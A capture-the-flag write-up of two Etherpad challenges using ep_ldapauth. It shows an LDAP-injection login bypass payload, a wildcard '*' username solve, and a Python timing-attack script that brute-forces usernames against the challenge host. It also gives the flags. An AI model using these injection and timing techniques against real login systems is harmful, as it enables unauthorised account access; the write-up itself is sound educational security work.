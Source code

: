 # Etherpad 1 & 2

## Etherpad Part 1: The Challenge
We are given a link to an Etherpad instance and the password for an account. However, we are told that the username is unknown.
We are also told that the server is running Etherpad 1.8.18 with [ep_ldapauth 0.4.0](https://github.com/tykeal/ep_ldapauth/tree/42cd54c8f65ebb4b4c061b682be2acaf5486e0bc). Finally, we are given a JSON file titled "settings." This contained the LDAP auth settings. I looked into them, but didn't find anything worthwhile - pretty standard stuff.

## LDAP? Buddy...
Let's talk about LDAP authentication. LDAP, or Lightweight Directory Access Protocol, is a "mature, flexible, and well supported standards-based mechanism for interacting with directory servers," according to [ldap.com](https://ldap.com). Generally, it is used to store hierarchical data about users, groups, and applications. Directory servers, notably, store trees of entries and are therefore NoSQL databases. Each LDAP entry has three primary components: a name (uniquely identifies entry and its position on the directory information tree hierarchy - similar to a file path), a collection of attributes, and a collection of object classes.

This is cool and all, but can we exploit it in some way?

### Putting the L in LDAP, ammiright? Please laugh.
That's right baby, LDAP injection exists. And it's pretty straightforward, too - check out [this article](https://brightsec.com/blog/ldap-injection/) on LDAP injection in its many forms. It works just the same as SQL injection, but takes into account the LDAP protocol structure. For example, the statement ```(&(USER=Uname)(PASSWORD=Pwd))``` is often used in authentication. The ```and``` symbol checks to make sure both of the following statements are true; ie, both ```USER=Uname``` and ```PASSWORD=Pwd```. So, let's just say we need to log into the account with the username kit, but we do not know the password. We can input ```kit)(&)```, and the full query will become ```(&(USER=kit)(&))(PASSWORD=Pwd))```. This will only compare ```USER=kit``` and ```&```, which is the ```TRUE``` filter in the LDAP protocol. Therefore, the result will be true and the user will gain access without the password.

## The Solve
That's great and all, but in our case, we have the password, but we do not have the username. So, I started playing around with what I learned. An important filter in LDAP is ```*```. Similarly to SQL, it is the "all" filter. So, I tried inputting * as the username. Lo and behold, it worked! The flag was at the bottom of the page: 

```KCTF{nobody_escapes_ldap_filters}```

That got 16 solves. Come on, people.

## Etherpad Part 2: The Challenge
Alright, this is where it gets interesting. For this one, we know that the username is identical to the password for every account. Unfortunately, we do not know either. We do know that the username/password begins with "kctf{" and, using our amazing deductive skills, probably ends with "}". We also know that the flag format is ```kctf\{[a-z0-9{}_.]*\}```. 

## My Attempt
I should clarify - I did not figure this one out. I tried for ages to find the correct LDAP injection to crack this puzzle. I tried ```kctf\{*\}``` for the username, as it would get every entry of form "kctf{...}". I tried ```{{username}}``` for the password. I tried some tricky stuff with ANDs and ORs that were based on the attacks mentioned in the article above. Nothing seemed to work. But did I give up? Yes. After a few hours of scouring the internet, reading the ```settings.json``` file, and searching for version-specific exploits, I opted to take a nap rather than torment myself further. I am nothing if not a quitter.

## The Solution
The great news is I was not even close. The solution was not in LDAP injection at all - in fact, it was a TIMING ATTACK! So cool! Such a fan of that. Wow. You will notice that if you input a random word into the username field of the authentication, it takes around 1.8 seconds for a response. However, if you type in something that finds users, for example ```kctf\{*```, it will take upwards of 2.3 seconds for a response to be returned. We can use this to create a bruteforce attack:
* Cycle through all of the possible characters
* For each character char, test signing in with ```previous_username + char + *```
* If the response takes longer than 2.3 seconds, append this character to previous_username and try again
* Keep going until the character "}" is appended
It is important to note that we can automate this by testing usernames with the URL ```http://USERNAME:x@etherpad2.kitctf.me:9002/```. This will attempt to sign in with username ```USERNAME``` and will have the correct timing properties.

Here is the code for the correct solution, written by @eta#0667 on Discord.
```py
#!/usr/bin/env python3
import requests, time

# Possible characters in the username
character_list = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '\.', '_', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '\{', '\}']

# If the user exists, request will take longer than this many seconds
threshhold=2.3

flag = "kctf\{"
while True:
    for x in character_list:
        flag_try = flag+x
        response = requests.get("http://"+flag_try+"*:x@etherpad2.kitctf.me:9002/")
        elapsed = response.elapsed.total_seconds()
        print(f"{flag_try}:{response.status_code}:{elapsed}")
        if elapsed > threshhold:
            print(f"Found {flag_try}")
            flag = flag_try
            break
```
After a decent chunk of time this thing gave me the solution kctf{user_enumer4t1on_zer0day}.

## Conclusion
I found these two challenges to be incredibly interesting simply because I had no experience with LDAP authentication before. The first one was fun because I got to do a deep dive in LDAP injection, and then find out the solution required maybe 2 minutes of research. The second had a really cool solution, although I'm not sure I would have ever guessed a timing attack. Plus, I have the worst WiFi known to man so getting the timing attack to run correctly for, like, thirty minutes was a struggle That's on me though. I had fun with these two and learned a lot.
